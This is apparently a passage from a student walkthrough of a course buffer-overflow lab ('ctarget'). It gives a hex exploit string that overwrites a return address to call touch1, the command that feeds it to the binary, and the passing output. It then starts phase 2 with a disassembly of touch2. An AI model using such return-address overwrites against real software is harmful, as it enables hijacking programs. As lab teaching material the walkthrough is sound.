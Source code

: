 ```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
81 25 40 00 00 00 00 00
```

Since these are hex values, we need to run it through the `hex2raw` to generate the raw exploit string, and run the program which is handily combined into one command.


```
cat ctarget.l1.txt | ./hex2raw | ./ctarget
```

The following terminal output should look something like displayed below (cookie will be different)

```
Cookie: 0x2a39efbd
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

---

### phase 2

If we look at the `ctarget.d` file, we can see that to pass this phase, we need to pass our cookie as an argument into the touch2 function.


```
00000000004025b1 <touch2>:
  4025b1:	50                   	push   %rax
  4025b2:	58                   	pop    %rax
  4025b3:	48 83 ec 08          	sub    $0x8,%rsp
  4025b7:	89 fa                	mov    %edi,%edx
  4025b9:	c7 05 79 22 11 00 02 	movl   $0x2,0x112279(%rip)        # 51483c <vlevel>
  4025c0:	00 00 00 
  4025c3:	39 3d 7b 22 11 00    	cmp    %edi,0x11227b(%rip)        # 514844 <cookie>
  4025c9:	74 2a                	je     4025f5 <touch2+0x44>
  4025cb:	48 8d 35 f6 9c 0d 00 	lea    0xd9cf6(%rip),%rsi        # 4dc2c8 <_IO_stdin_used+0x2c8>
  4025d2:	bf 01 00 00 00       	mov    $0x1,%edi
  4025d7:	b8 00 00 00 00       	mov    $0x0,%eax
  4025dc:	e8 ef 44 05 00       	call   456ad0 <___printf_chk>
  4025e1:	bf 02 00 00 00       	mov    $0x2,%edi
  4025e6:	e8 95 05 00 00       	call   402b80 <fail>
  4025eb:	bf 00 00 00 00       	mov    $0x0,%edi
  4025f0:	e8 2b ac 00 00       	call   40d220 <exit>
  4025f5:	48 8d 35 a4 9c 0d 00 	lea    0xd9ca4(%rip),%rsi        # 4dc2a0 <_IO_stdin_used+0x2a0>
  4025fc:	bf 01 00 00 00       	mov    $0x1,%edi
  402601:	b8 00 00 00 00       	mov    $0x0,%eax
  402606:	e8 c5 44 05 00       	call   456ad0 <___printf_chk>
  40260b:	bf 02 00 00 00       	mov    $0x2,%edi
  402610:	e8 71 04 00 00       	call   402a86 <validate>
  402615:	eb d4                	jmp    4025eb <touch2+0x3a>
```
